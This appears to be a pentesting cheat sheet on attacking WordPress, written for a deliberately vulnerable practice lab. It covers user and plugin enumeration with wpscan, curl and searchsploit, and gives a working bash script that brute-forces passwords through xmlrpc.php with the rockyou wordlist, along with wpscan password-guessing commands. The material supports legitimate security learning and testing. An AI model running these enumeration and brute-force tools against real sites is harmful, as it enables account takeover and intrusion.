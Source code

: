 ----
> We can test WordPress vulns with this playground: [dvwp](https://github.com/vavkamil/dvwp)
----

# User enumeration

## Manual methods

### Author post

If we see "by someone" in a post, we can click that user and check the url looking for other users.

### wp-admin

We can check if *wp-admin* is available and start testing users checking hints provided by the error message.

## Tools

### wpscan

We can enumerate users with wpscan using *-e u* option.

```shell
wpscan --url http://{URL}:{PORT} -e u --api-token="{TOKEN}"
```

# Vulnerabilities enumeration

## Manual methods

### curl

We can check plugins and it's versions using curl:

```shell
curl -s -X GET "http://{URL}:{PORT}/" | grep plugins
```

Then we can use searchsploit for searching vulnerabilities available for that plugin/version:
```shell
searchsploit {PLUGIN_NAME}
```

### xmlrpc

The xmlrpc.php file is used by WordPress plugins and mobile apps to interact with website and do some tasks like publish content, refresh site or get information. We can brute-force it because we have unlimited attempts number to log-in with this file.

First of all, we need to check if xmlrpc.php is exposed, check available [methods](https://nitesculucian.github.io/2019/07/01/exploiting-the-xmlrpc-php-on-all-wordpress-versions/), and finally we can use an script like this for brute-forcing it:

```bash
#!/bin/bash

function ctrl_c() {
  echo -e "\n\n[!] Exiting..."
  exit 1
}

# Ctrl+C
trap ctrl_c SIGINT

function createXML() {
  password=$1

  xmlFile="""
<?xml version=\"1.0\" encoding=\"UTF-8\"?>
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>{USERNAME}</value></param>
<param><value>$password</value></param>
</params>
</methodCall>"""

  echo $xmlFile > file.xml

  response=$(curl -s -X POST "http://{URL}:{PORT}/xmlrpc.php" -d@file.xml)

  if [ ! "$(echo $response | grep 'Incorrect username or password.')" ]; then
    echo -e "\n[+] The password for user {USERNAME} is $password"
    rm file.xml
    exit 0
  fi
}

cat /usr/share/wordlists/rockyou.txt | while read password; do
  createXML $password
done

```

## Tools

### wpscan

We can get a token from [wpscan](https://wpscan.com/) and start scanning wordpress sites.

```shell
# With -e we can enumerate some stuff, for example with vp (vulnerable plugins) or u (users)
wpscan --url http://{URL}:{PORT} -e vp,u --api-token="{TOKEN}"
```

We can also brute-forcing log-in with this tool:
```shell
wpscan --url http://{URL}:{PORT} -U {USERNAME} -P /usr/share/wordlists/rockyou.txt
```
